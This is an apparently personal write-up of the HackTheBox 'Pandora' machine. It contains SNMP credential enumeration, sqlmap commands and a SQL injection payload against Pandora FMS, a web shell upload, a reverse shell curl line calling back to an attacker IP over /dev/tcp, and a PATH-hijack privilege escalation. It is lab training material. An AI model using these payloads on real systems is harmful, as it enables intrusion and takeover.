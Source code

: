 ```yaml
---

title: HTB [PANDORA] [LINUX]

date: 2022-01-10 18:23:05 +0200

categories: [htb]

tags: [HACKTHEBOX MACHINES]

---
```



![](https://jopraveen.files.wordpress.com/2022/01/8cjsjbq.png?w=472)

## **NMAP:**

```css
PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 8.2p1 Ubuntu 4ubuntu0.3 (Ubuntu Linux; protocol 2.0)
80/tcp open  http    Apache httpd 2.4.41 ((Ubuntu))
|_http-server-header: Apache/2.4.41 (Ubuntu)
|_http-title: Play | Landing
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel
```

-   Nothing interesting in website
-   There’s only one contact form, and there’s no vulnerability.

## **FUZZING:**

```css
/.htpasswd (Status: 403)
/.htpasswd.txt (Status: 403)
/.htaccess (Status: 403)
/.htaccess.txt (Status: 403)
/server-status (Status: 403)
/index.html (Status: 200)
/assets (Status: 301)
/server-status (Status: 403)
```

-   Can’t access these pages

```css
d70.pandora.htb
s4232ipmi.pandora.htb
incarose.pandora.htb
web1211.pandora.htb
erol.pandora.htb
```

-   I got a couple of sub domains in subdomain fuzzing, but all of them are false positives.
-   After spending a few minutes, I decided to scan the UDP ports.
-   Found an SNMP port.

```css
 nmap -sU 10.10.11.136 -p 161
Starting Nmap 7.80 ( https://nmap.org ) at 2022-01-09 01:16 +05
Nmap scan report for pandora.htb (10.10.11.136)
Host is up (0.18s latency).

PORT    STATE SERVICE
161/udp open  snmp
```

-   let’s scan this deeper

## SSH CREDS:

-   We can get these credentials in two ways
-   One by enumerating it with the snmpwalk tool.
-   Another one is just running nmap script scan.

```bash
nmap -sU -sC -sV 10.10.11.136 -p 161
```

-   This scan took 749.78 seconds

![](https://jopraveen.files.wordpress.com/2022/01/image-8.png?w=1024)

-   Here under snmp-process, we can see the username and password.

-   Another method of seeing our snmp output `cat snmp.out| grep -i string`

![](https://jopraveen.files.wordpress.com/2022/01/image-9.png?w=1024)

-   use these credentials to ssh in

[![](https://i.imgur.com/K0doEwI.png)]

-   We need to privesc to matt

## WEB SERVER

[![](https://i.imgur.com/XTCzDNy.png)](https://i.imgur.com/XTCzDNy.png)

-   There’s a web-server running locally

[![](https://i.imgur.com/0VbgMN7.png)](https://i.imgur.com/0VbgMN7.png)

-   By curling it, We can get a path “/pandora_console/”
-   And it’s running in Apache 2.4.1

[![](https://i.imgur.com/1wpGvVO.png)](https://i.imgur.com/1wpGvVO.png)

-   proccess running by matt ^
-   Let’s try to forward local port 80 along with our machine to exploit it.

[![](https://i.imgur.com/vO0xei5.png)](https://i.imgur.com/vO0xei5.png)

-   You can use socat to port forwarding.

## PANDORA FMS:

[![](https://i.imgur.com/RqxxgrK.png)](https://i.imgur.com/RqxxgrK.png)

-   Quickly googled about it
-   and got **[this nice blog](https://blog.sonarsource.com/pandora-fms-742-critical-code-vulnerabilities-explained)**
-   We must first exploit that SQLi in the session_id parameter.

![](https://jopraveen.files.wordpress.com/2022/01/unknown.png?w=811)

-   dump databases

```
sqlmap -u http://10.10.11.136:1337/pandora_console/include/chart_generator.php --data="session_id=test" -method POST --dbs --batch
```

![](https://i.imgur.com/mmmORUi.png)

-   dump tables

```
sqlmap -u http://10.10.11.136:1337/pandora_console/include/chart_generator.php --data="session_id=test" -method POST -D pandora -tables --batch
```

-   got some hashses, But can’t crack it
-   so let’s go for sessions

![](https://i.imgur.com/YQ9sMB2.png)

```
sqlmap -u http://10.10.11.136:1337/pandora_console/include/chart_generator.php --data="session_id=test" -method POST -D pandora -T tsessions_php --dump --batch
```

![](https://i.imgur.com/1uPONzh.png)

-   got admin session_id in tsessions_php
-   If you cannot obtain the session ID, you can simply use sql payload to sign in.

```bash
10.10.11.136:1337/pandora_console/include/chart_generator.php?session_id=hello' UNION ALL SELECT 'XXXX',1337,'id_usuario|s:5:"admin";';-- -
```

## RCE:

-   **[This blog](https://k4m1ll0.com/cve-2020-8500.html)** covers everything in detail.

![](https://jopraveen.files.wordpress.com/2022/01/image-11.png?w=384)

-   Now go to **[http://10.10.11.136:1337/pandora_console/index.php?sec=godmode/extensions&sec2=extensions/extension_uploader](http://10.10.11.136:1337/pandora_console/index.php?sec=godmode/extensions&sec2=extensions/extension_uploader)**
-   Then upload this zip
-   You can access this file in /extensions/shell.php

![](https://jopraveen.files.wordpress.com/2022/01/image-12.png?w=928)

-   Cool we can able to execute commands
-   Grab the user.txt real quick, time to root


![](https://i.imgur.com/gcLux48.png)

```
curl http://10.10.11.136:1337/pandora_console/extensions/shell.php\?cmd\="bash%20-c%20%27exec%20bash%20-i%20%26%3E%2Fdev%2Ftcp%2F10.10.14.118%2F1337%20%3C%261%27"
```

-   Grab a shell and upgrade it.

## ROOT:

![](https://i.imgur.com/4wJPLKG.png)

-   Find the suid binary
-   pandora_backup is not a regular binary
-   let’s download it
-   Time to do some reversing


![](https://i.imgur.com/R0zZqne.png)

-   Here in the main function the binary calls a system function.
-   It runs “tar” command, but not with full path
-   Now we can abbuse it with export PATH.. ezpzz

![](https://jopraveen.files.wordpress.com/2022/01/image-13.png?w=994)

```bash
echo "sudo chmod u+s /bin/bash" > tar
chmod +x tar
export PATH="$(pwd):/usr/local/sbin:/usr/local/bin:/usr/sbin:/usr/bin:/sbin:/bin"
/usr/bin/pandora_backup
bash -p
```

- Root is very easy than user
- Thanks for reading my write-up, I hope you enjoyed it if you liked it, then give me respect in Hackthebox.

**[Click here](https://www.hackthebox.com/home/users/profile/190694)** to visit my HTB profile
